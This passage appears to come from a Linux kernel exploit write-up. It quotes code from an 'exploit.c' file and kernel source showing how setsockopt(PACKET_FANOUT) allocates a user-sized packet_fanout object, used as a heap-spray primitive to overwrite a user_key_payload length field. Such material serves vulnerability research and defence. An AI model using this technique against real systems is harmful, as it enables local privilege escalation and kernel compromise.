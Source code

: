 - [exploit.c#L327](./exploit.c#L327):

```c
static inline bool packet_fanout_alloc(int packet_socket_fd, uint16_t id, uint32_t max_num_members)
{
  struct fanout_args fanout_args = {
    .type_flags = PACKET_FANOUT_HASH, .id = id, .max_num_members = max_num_members
  };
  
  if (setsockopt(packet_socket_fd, SOL_PACKET, PACKET_FANOUT, &fanout_args, sizeof(fanout_args)) < 0) {
    perror("setsockopt(PACKET_FANOUT)");
    return false;
  }

  return true;
}
```

- [exploit.c#L363](./exploit.c#L363):

```c
uint16_t overwrite_user_key_payload_datalen = DYN_KMALLOC_256 - USER_KEY_PAYLOAD_STRUCT_SIZE
```

- Kernel code path that perform `struct packet_fanout` allocation:

```c
static int
packet_setsockopt(struct socket *sock, int level, int optname, sockptr_t optval,
		  unsigned int optlen)
{
  ...
  switch (optname) {
  ...
  case PACKET_FANOUT:
	{
		struct fanout_args args = { 0 };

		if (optlen != sizeof(int) && optlen != sizeof(args))
			return -EINVAL;
		if (copy_from_sockptr(&args, optval, optlen))
			return -EFAULT;

		return fanout_add(sk, &args);
	}
  ...
  }
  ...
}
```

```c
static int fanout_add(struct sock *sk, struct fanout_args *args)
{
  ...
  struct packet_fanout *f, *match;
  ...
  } else {
		if (args->max_num_members > PACKET_FANOUT_MAX)
			goto out;
		if (!args->max_num_members)
			args->max_num_members = 256;
		err = -ENOMEM;
		match = kvzalloc(struct_size(match, arr, args->max_num_members),
				 GFP_KERNEL); // args->max_num_members: user controllable
		if (!match)
			goto out;
```